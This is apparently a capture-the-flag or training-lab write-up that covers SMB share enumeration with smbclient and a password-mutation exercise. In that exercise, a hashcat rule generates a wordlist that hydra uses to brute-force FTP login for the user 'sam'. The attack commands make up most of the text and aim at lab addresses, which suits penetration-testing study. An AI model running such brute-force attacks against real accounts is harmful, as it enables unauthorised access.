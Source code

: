 <figure><img src=".gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

`smbclient -U cassie -L \10.129.238.248`

`smbclient -U cassie \\\\10.129.238.248\\SHARENAME`

_flag is right here_

### Password Mutations

#### Questions

**Create a mutated wordlist using the files in the ZIP file under "Resources" in the top right corner of this section. Use this wordlist to brute force the password for the user "sam". Once successful, log in with SSH and submit the contents of the flag.txt file as your answer.**

Create mutated password-list:

`hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list`

Remove PWs shorter than 10 chars

`sed -ri '/^.{,9}$/d' mut_password.list`

Use only first 7000

`head -7000 mut_password.list`

Bruteforce FTP

`hydra -l sam -P ./mut_password.list ftp://<IP> -t 64`

<figure><img src=".gitbook/assets/image (170).png" alt=""><figcaption></figcaption></figure>
